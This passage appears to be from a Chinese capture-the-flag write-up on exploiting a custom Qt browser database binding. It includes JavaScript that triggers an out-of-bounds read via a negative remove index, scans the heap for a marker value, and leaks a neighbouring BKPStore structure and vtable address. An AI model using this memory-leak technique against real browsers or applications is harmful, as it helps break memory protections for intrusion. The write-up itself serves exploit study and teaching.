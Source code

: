```
```

**构造Exploit**

一些要点：Js的heap和QT（我们这次分析的）的heap是分开的，QT直接用的libc的heap。所以内存查找不用担心找到js中的key1

通过匹配store_ping值，寻找C对象的BKPStore结构地址

```
&lt;div id="print"&gt;&lt;/div&gt;
&lt;script type="text/javascript"&gt;
    var db=BKPDataBase.create("dbname","passwd");
    var key1=0xabcd1234;
    var B=db.createStore("B",1,[0,1,2,3,4,5,6,7,8,9],0xaabb);
    var C=db.createStore("C",1,[0,1,2,3,4,5,6,7,8,9],key1);
    B.remove(-1);
    B.insert(0,0xffff000000001);

    var x="";
    for(var i=0;i&lt;2000 ;i++)
    `{`
        //x+=i+" : "+B.get(i).toString(16)+"&lt;br&gt;";
        if(B.get(i)==key1)`{`
            //alert("i="+i);
            for(var j=i-10;j&lt;i+10;j++)
            `{`
                x+=j+" : "+B.get(j).toString(16)+"&lt;br&gt;";
            `}`    
        `}`
    `}`
    document.getElementById("print").innerHTML=x;
&lt;/script&gt;
```

构造两个Vector，读取另一个的虚函数表，判断条件 store_ping参数 ，对照结构可以取到第二个Vector的intvect地址

BKPStore结构参考

```
quint8 type; // specifies which type to of vector
         // to use
  QVector&lt;QVariant&gt; varvect;
  QVector&lt;qulonglong&gt; intvect;
  QVector&lt;QString&gt; strvect;
  qulonglong store_ping;
```

JS打印出了BKPStore的结构，我们可以获取这个QVector的地址还有后文用于泄漏地址的Vtable地址。

打印地址时候需要注意的是，因为创建大量的内存，heap内部空间会比较乱，很可能读取到上一次遗留/错误的地址。添加一个判断条件来保证BKPStore的正确性，必须保证读取到的strvect和varvect相等（未初始化状态），

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/Jl8lBo.png)
